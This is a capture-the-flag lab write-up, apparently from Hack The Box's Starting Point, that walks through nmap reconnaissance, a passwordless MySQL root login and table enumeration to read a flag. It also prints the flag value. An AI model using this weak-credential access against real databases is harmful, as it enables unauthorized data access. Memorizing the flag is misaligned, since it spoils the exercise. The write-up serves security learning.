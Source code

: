 #vulnerability-assessment #databases #mysql #sql #weak-credentials #reconnaissance 

# 0. Theory

The reason web servers and other services use databases such as MySQL, MariaDB, or other technologies is to store the accumulated data somewhere easily accessible and well-organized.
Learning how to navigate databases is of considerable importance because most of the critical data is stored in them, including usernames and passwords, which can potentially be used to gain the highest privileged access to the target system.

This exercise covers the scenario when we won't need to access the SQL Service through the web application hosted on the target. Instead we will find a direct way of interacting with the SQL Service.


**During our scan, which port do we find serving MySQL?**
*3306*

**When using the MySQL command line client, what switch do we need to use in order to specify a login username?**
*-u*



# 1. Recon

Verify target and availability.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-8pyoa9douu]─[~]
	└──╼ [★]$ ping 10.129.131.202 -c 4
	PING 10.129.131.202 (10.129.131.202) 56(84) bytes of data.
	64 bytes from 10.129.131.202: icmp_seq=1 ttl=63 time=8.38 ms
	64 bytes from 10.129.131.202: icmp_seq=2 ttl=63 time=7.96 ms
	64 bytes from 10.129.131.202: icmp_seq=3 ttl=63 time=8.18 ms
	64 bytes from 10.129.131.202: icmp_seq=4 ttl=63 time=7.99 ms
	
	--- 10.129.131.202 ping statistics ---
	4 packets transmitted, 4 received, 0% packet loss, time 3002ms
	rtt min/avg/max/mdev = 7.962/8.126/8.376/0.167 ms


# 2. Enumeration

We start with an `nmap` scan looking for open ports and services, with the script and version scan flags enabled.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-8pyoa9douu]─[~]
	└──╼ [★]$ nmap -sC -sV 10.129.131.202
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 04:26 CDT
	Nmap scan report for 10.129.131.202
	Host is up (0.0079s latency).
	Not shown: 999 closed tcp ports (reset)
	PORT     STATE SERVICE VERSION
	3306/tcp open  mysql?
	| mysql-info: 
	|   Protocol: 10
	|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
	|   Thread ID: 87
	|   Capabilities flags: 63486
	|   Some Capabilities: LongColumnFlag, IgnoreSigpipes, Support41Auth, SupportsCompression, ConnectWithDatabase, SupportsTransactions, FoundRows, Speaks41ProtocolOld, InteractiveClient, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, ODBCClient, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
	|   Status: Autocommit
	|   Salt: ?)M+.CI#o,*.FTV26Z@r
	|_  Auth Plugin Name: mysql_native_password
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 199.25 seconds

We only found one open port: **3306**, which runs a service named `MySQL 5.5.5-10.3.27-MariaDB0+deb10u1`. MySQL is a service designed for database management.


# 3. Foothold

In order to communicate with the database, we need to install either `mysql` or `mariadb` on our local machine. To do that, you need to run the following command. Make sure to include the `*` symbol at the end of the command to include all the related MySQL packages available.

	sudo apt update && sudo apt install mysql*

After the installation is done, we check the `--help` of the `mysql` command as usual.

Note that the MySQL clients usually authenticate with the service with a username/password combination. However, it is essential to test for passwordless authentication, as there might be an intentional misconfiguration in the service, which would allow personnel to easily log into the service during the deployment stage of the project to easily interact with it before making it available to other colleagues.
We can try to log in as `admin` or `root` user, naturally having the highest privileges on the system.

	-h : Connect to host.
	-u : User for log-in if not current user.


	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-8pyoa9douu]─[~]
	└──╼ [★]$ mysql -h 10.129.131.202 -u root
	Welcome to the MariaDB monitor.  Commands end with ; or \g.
	Your MariaDB connection id is 96
	Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10
	
	Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
	
	Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
	
	MariaDB [(none)]>

With some luck, we're in the MySQL service shell on the host machine, and we can explore the tables and data it holds.

[MySQL Cheat Sheet is available here.](https://www.mysqltutorial.org/mysql-cheat-sheet/)

	SHOW databases; : Prints out the databases we can access.
	USE {database_name}; : Set to use the database named {database_name}.
	SHOW tables; : Prints out the available tables inside the current database.
	SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.

We can look around the databases and in their tables.

	MariaDB [(none)]> show databases;
	+--------------------+
	| Database           |
	+--------------------+
	| htb                |
	| information_schema |
	| mysql              |
	| performance_schema |
	+--------------------+
	4 rows in set (0.013 sec)
	
	MariaDB [(none)]> use htb;
	Reading table information for completion of table and column names
	You can turn off this feature to get a quicker startup with -A
	
	Database changed
	MariaDB [htb]> show tables;
	+---------------+
	| Tables_in_htb |
	+---------------+
	| config        |
	| users         |
	+---------------+
	2 rows in set (0.008 sec)

Checking one of the tables we find the exercise's flag.

	MariaDB [htb]> select * from config;
	+----+-----------------------+----------------------------------+
	| id | name                  | value                            |
	+----+-----------------------+----------------------------------+
	|  1 | timeout               | 60s                              |
	|  2 | security              | default                          |
	|  3 | auto_logon            | false                            |
	|  4 | max_size              | 2M                               |
	|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
	|  6 | enable_uploads        | false                            |
	|  7 | authentication_method | radius                           |
	+----+-----------------------+----------------------------------+
	7 rows in set (0.008 sec)



https://www.hackthebox.com/achievement/machine/2057492/403
![[Pasted image 20240830115050.png]]